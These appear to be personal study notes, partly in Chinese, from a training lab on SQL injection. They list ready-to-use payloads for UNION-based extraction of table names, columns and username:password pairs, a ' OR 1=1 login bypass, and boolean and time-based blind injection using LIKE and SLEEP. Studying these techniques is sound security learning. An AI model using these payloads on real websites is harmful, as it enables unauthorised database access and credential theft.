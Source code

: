 	--> In-Band SQL Injection : 
		--> method :  database() 
			--> group_concat() 從多個傳回的行中取得指定的列 
			--> group_concat(table_name)  | information_schema.tables  |table_schema
			--> group_concat(column_name) | information_schema.columns | table_name
		 https://website.thm/article?id=1 UNION SELECT 1
		--> 1 UNION SELECT 1
		--> 1 UNION SELECT 1,2
		--> 1 UNION SELECT 1,2,3 --> no error now
		--> 0 UNION SELECT 1,2,3 -- database
		--> 0 UNION SELECT 1,2,database()
		--> 0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
		--> 0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
		--> 0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

	--> Blind SQLi
		--> Authentication Bypass -- login 
			--> ' OR 1=1;-- 
		--> Boolean Based: (true/false)
			--> Keep username : ?username=admin123' UNION SELECT 1,2,3;-- 
			--> database() : where database() like '%';--
			==> like 運算子中，我們只有% -- >匹配任何內容
				--> 循環遍歷所有字母、數字和字元 | like 'a%';--
			--> admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
		--> Time-Based:
			-->  SLEEP(x)
			--> admin123' UNION SELECT SLEEP(5);--
			--> admin123' UNION SELECT SLEEP(5),2 where database() like '%';--
			--> admin123' UNION SELECT SLEEP(5),2 from users where username like 'admin' and password like '4961';--	

